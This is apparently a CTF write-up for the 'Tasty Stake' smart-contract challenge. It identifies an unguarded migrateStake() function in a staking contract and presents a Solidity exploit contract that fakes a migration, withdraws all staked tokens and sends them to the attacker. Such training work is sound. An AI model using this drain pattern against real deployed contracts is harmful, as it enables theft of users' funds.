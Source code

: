 ```yaml
---
title: "Mr Steal Yo Crypto — Tasty Stake"
date: 2023-07-22
draft: false
description: "CTF - 6"
tags: ["CTF"]
series: ["CTF"]
series_order: 6
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #6 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real-world exploits.

Created by [@0xToshii](https://twitter.com/0xToshii)

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement).

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Tasty Stake

[redacted] labs have released their TastyStaking contract, which allows you to stake STEAK in order to farm BUTTER tokens.

Your task is to drain all of the STEAK tokens from the staking contract.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/tasty-stake)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/6-tasty-stake.sol)

### Review of the contract

#### TastyStaking.sol

There are a lot of functions inside this contract. I will only check the public/external function (except getters):

- `setRewardDistributor()`, `addReward()`, `setMigrator()`: No issues due to the modifier `onlyOwner`.
- `stake()`, `stakeAll()`, `stakeFor()`, `withdraw()`, `withdrawAll()`: No issues.
- `migrateWithdraw()`: No problem with the modifier `onlyMigrator`.
- `migrateStake()`: Wait, there is no modifier for checking who is allowed to call this function!? Well, I think we can complete the challenge now.

## Exploit the vulnerability

This is the same vulnerability as the challenge #2 — Safu Vault.

```solidity
/**
* @notice For migrations to a new staking contract:
*         1. User/DApp checks if the user has a balance in the `oldStakingContract`
*         2. If yes, user calls this function `newStakingContract.migrateStake(oldStakingContract, balance)`
*         3. Staking balances are migrated to the new contract, user will start to earn rewards in the new contract.
*         4. Any claimable rewards in the old contract are sent directly to the user's wallet.
* @param oldStaking The old staking contract funds are being migrated from.
* @param amount The amount to migrate - generally this would be the staker's balance
*/
function migrateStake(address oldStaking, uint256 amount) external {
    TastyStaking(oldStaking).migrateWithdraw(msg.sender, amount);
    _applyStake(msg.sender, amount);
}
```

We can create a contract that contains the function `migrateWithdraw()` and when someone called the function, it will return true. We are able to "stake" any amount without sending anything.

Here is a quick solution:

```solidity
contract Exploit {
    address owner;
    TastyStaking _tastyStaking;
    Token stakingToken;

    constructor(address _target, address _stakingToken) {
        owner = msg.sender;
        _tastyStaking = TastyStaking(_target);
        stakingToken = Token(_stakingToken);
    }

    // TastStaking contract will call this function and then increase our balance
    function migrateWithdraw(address staker, uint256 amount) external {
        // Exploit logic here (return true or whatever is needed)
    }

    // migrateStake() will call migrateWithdraw of our contract and not from the tastStaking contract and so we skip the check
    // We can choose the parameter address oldStaking so we can put our contract address
    function pwn() external {
        _tastyStaking.migrateStake(address(this), stakingToken.balanceOf(address(_tastyStaking)));
        _tastyStaking.withdrawAll(false);
        stakingToken.transfer(owner, stakingToken.balanceOf(address(this)));
    }
}
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/6-tasty-stake.sol).

## Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.